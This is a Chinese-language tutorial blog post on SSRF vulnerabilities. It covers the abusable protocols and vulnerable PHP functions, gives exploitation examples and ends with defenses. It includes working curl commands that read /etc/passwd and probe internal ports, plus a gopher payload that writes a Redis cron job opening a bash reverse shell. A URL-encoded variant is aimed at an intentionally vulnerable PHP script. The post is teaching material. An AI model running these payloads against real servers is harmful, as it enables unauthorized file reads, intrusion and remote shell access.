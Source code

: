 ```yaml
---
layout: post
title: 'SSRF漏洞学习'
subtitle: 'SSRF漏洞学习'
date: 2021-08-15
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全
---
```


### SSRF漏洞学习

> 什么是 SSRF ？

SSRF(Server-Side Request Forgery)服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞，一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

> SSRF危害即可以实现的攻击行为

	 1.主机本地敏感信息读取， 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的Banner信息
	 2.攻击运行在内外网主机的应用程序
	 3.通过访问默认文件对内网 Web 应用进行指纹识别
	 4.攻击内外网的 Web 应用，主要是使用 GET参数就可以实现的攻击
	 5.利用file协议读取本地文件

> 可进行利用的协议

	FILE                           读取服务器上任意文件内容
	IMAP/IMAPS/POP3SMTP/SMTPS      爆破邮件用户名密码
	FTP/FTPS                       FTP匿名访问、爆破
	DICT                           操作内网Redis等服务
	GOPHER                         能够将所有操作转成数据流，并将数据流一次发出去，可以用来探测内网的所有服务的所有漏洞
	TFTP                           UDP协议扩展

使用curl -V命令可以查看Ubuntu 16.04版本下默认的libcurl支持的协议

> PHP中容易造成漏洞的函数

	curl_exec()
	file_get_contents()
	fsockopen()

> 漏洞利用

1.本地利用

利用方式

(1)利用file协议查看文件

	curl -v 'file:///etc/passwd'

(2)利用dict探测端口

	curl -v 'dict://127.0.0.1:22'
	curl -v 'dict://127.0.0.1:6379/info'

(3)利用gopher协议反弹shell

	curl -v 'gopher://靶机ip:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/1234 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

更换IP和端口时，命令中的$58也要更改，$58表示字符串长度为58个字节，上面的EXP即是%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/1234 0>&1%0a%0a%0a%0a，3+51+4=58。如果想换成42.256.24.73，那么$58需要改成$61，以此类推。

注：Windows下使用curl命令需要把单引号换成双引号

2.远程利用

例 1 ssrf.php （未做任何ssrf防御）
	<?php
	function curl($url){  
	    // 创建一个新cURL资源
	    $ch = curl_init();
	    // 设置URL和相应的选项
	    curl_setopt($ch, CURLOPT_URL, $url);
	    curl_setopt($ch, CURLOPT_HEADER, 0);
	    // 抓取URL并把它传递给浏览器
	    curl_exec($ch);
	    // 关闭cURL资源，并且释放系统资源
	    curl_close($ch);
	}
	
	$url = $_GET['url'];
	curl($url); 
	?>

$GET_['url']可控，从而可以发送任意请求站点，构成ssrf漏洞

利用方式:

	# 利用file协议任意文件读取
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'
	
	# 利用dict协议查看端口
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'
	
	# 利用gopher协议反弹shell
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'

例 2 ssrf2.php

限制协议为HTTP、HTTPS

设置跳转重定向为True（默认不跳转）

	<?php
	function curl($url){
	    $ch = curl_init();
	    curl_setopt($ch, CURLOPT_URL, $url);
	    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, True);
	    // 限制为HTTPS、HTTP协议
	    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	    curl_setopt($ch, CURLOPT_HEADER, 0);
	    curl_exec($ch);
	    curl_close($ch);
	}
	
	$url = $_GET['url'];
	curl($url);
	?>

此时使用dict协议已经不成功，可以利用302跳转的方式来绕过http协议限制

## 漏洞寻找

> 分享功能，通过 URL 地址分享网页内容

早期分享应用中，为了更好的提供用户体验，WEB应用在分享功能中，通常会获取目标URL地址网页内容中的<tilte></title>标签或者<meta name="description" content=“”/>标签中content的文本内容作为显示以提供更好的用户体验

>转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

由于手机屏幕大小的关系，直接浏览网页内容的时候会造成许多不便，因此有些公司提供了转码功能，把网页内容通过相关手段转为适合手机屏幕浏览的样式。例如百度、腾讯、搜狗等公司都有提供在线转码服务

> 在线翻译：通过URL地址翻译对应文本的内容。

提供此功能的国内公司有百度、有道等

> 图片加载与下载：通过URL地址加载或下载图片

图片加载远程图片地址此功能用到的地方很多，但大多都是比较隐秘，比如在有些公司中的加载自家图片服务器上的图片用于展示。（开发者为了有更好的用户体验通常对图片做些微小调整例如加水印、压缩等，所以就可能造成SSRF问题）

> 图片、文章收藏功能

此处的图片、文章收藏中的文章收藏就类似于功能一、分享功能中获取URL地址中title以及文本的内容作为显示，目的还是为了更好的用户体验，而图片收藏就类似于功能四、图片加载

> 从URL关键字中寻找

share，url，link，src，source，target，sourceURl，imageURL，domain...

> 未公开的api实现以及其他调用URL的功能

此处类似的功能有360提供的网站评分，以及有些网站通过api获取远程地址xml文件来加载内容。

> 其他

数据库内置功能，比如mongodb的copyDatabase函数
接收邮件服务器地址的邮件系统

### 漏洞防护

1.限制协议为HTTP、HTTPS

2.限制302跳转次数

3.统一错误信息

4.限制内网IP